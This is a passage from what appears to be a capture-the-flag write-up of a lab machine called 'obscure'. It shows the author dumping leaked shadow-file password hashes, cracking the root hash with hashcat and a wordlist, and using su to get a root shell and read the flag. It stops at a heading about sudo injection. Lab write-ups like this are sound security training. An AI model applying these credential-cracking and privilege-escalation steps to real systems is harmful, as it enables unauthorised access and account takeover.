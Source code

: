 In the file, there’s hashes (and a lot of extra whitespace):

```

robert@obscure:/dev/shm$ cat PMcu46FZ 
root
$6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1
18226
0
99999
7

robert
$6$fZZcDG7g$lfO35GcjUmNs3PSjroqNGZjH35gN4KjhHbQxvWO0XU.TCIHgavst7Lj8wLF/xQ21jYW5nD66aJsvQSP/y1zbH/
18163
0
99999
7

```

I can crack that easily in `hashcat`:

```

root@kali# hashcat -m 1800 -a 0 -o root.cracked shadow /usr/share/wordlists/rockyou.txt --force
...[snip]...
root@kali# cat root.cracked 
$6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1:mercedes

```

Now I can `su` and get a root shell:

```

robert@obscure:/dev/shm$ su -
Password: 
root@obscure:~#

```

And get `root.txt`:

```

root@obscure:~# cat root.txt
512fd442************************

```

### Path 2: Inject into sudo

Looking more closely at what happens when auth is successful, it enters this loop:
